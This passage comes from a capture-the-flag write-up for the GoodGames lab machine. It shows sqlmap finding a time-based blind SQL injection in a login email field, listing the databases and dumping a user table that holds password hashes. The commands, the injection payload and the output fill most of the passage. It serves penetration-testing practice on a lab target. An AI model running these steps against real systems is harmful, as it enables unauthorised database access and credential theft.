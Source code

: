 - Save the request with correct email login and run `sqlmap` on it

```bash
sqlmap -r goodgames.req
```

```bash
[...]
[22:53:54] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:53:54] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:53:55] [INFO] checking if the injection point on POST parameter 'email' is a false positive
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 81 HTTP(s) requests:
---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=syselement@syselement.com' AND (SELECT 6349 FROM (SELECT(SLEEP(5)))LPBZ) AND 'KZzK'='KZzK&password=Passw0rd!
---
[22:54:37] [INFO] the back-end DBMS is MySQL 5.0.12
```

- Enumerate the database and tables, checking for sensitive information

```bash
sqlmap -r goodgames.req --dbs

    available databases [2]:
    [*] information_schema
    [*] main

sqlmap -r goodgames.req main --tables

    [23:04:22] [INFO] retrieved: user
    [...]
```

- Extract all the data from the `user` tables

```bash
sqlmap -r goodgames.req --batch -D main -T user --dump
```

```bash
Table: user
[2 entries]
+----+---------------------------+------------+----------------------------------------------+
| id | email                     | name       | password                                     |
+----+---------------------------+------------+----------------------------------------------+
| 1  | admin@goodgames.htb       | admin      | 2b22337f218b2d82dfc3b6f77e7cb8ec             |
| 2  | syselement@syselement.com | syselement | 47b7bfb65fa83ac9a71dcb0f6296bb6e (Passw0rd!) |
+----+---------------------------+------------+----------------------------------------------+
```

### SQL injection - manual
